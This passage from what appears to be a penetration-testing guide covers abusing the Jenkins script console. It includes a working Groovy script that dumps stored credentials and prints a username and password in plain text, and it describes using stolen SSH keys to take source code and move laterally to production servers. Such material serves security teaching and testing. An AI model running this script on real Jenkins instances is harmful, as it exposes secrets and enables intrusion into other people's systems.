 ![](../../.gitbook/assets/image%20%283%29.png)

Moreover, we can also use this console to enumerate stored secrets in Jenkins with the following script:

```groovy
import com.cloudbees.plugins.credentials.*

// list credentials
credentials = SystemCredentialsProvider.getInstance().getCredentials()
println credentials

println ''
println credentials[0]['username'] + ':' + credentials[0]['password']
```

Furthermore, most of the time Jenkins will also store a Git user **SSH Key**. This is because of its nature as a CI/CD service, Jenkins usually store the SSH Key to **pull source code** and **deploy to production servers**. If we can get access to this SSH Key, we can use it to steal source code, and also perform lateral movement to production servers, resulting in very big damage.
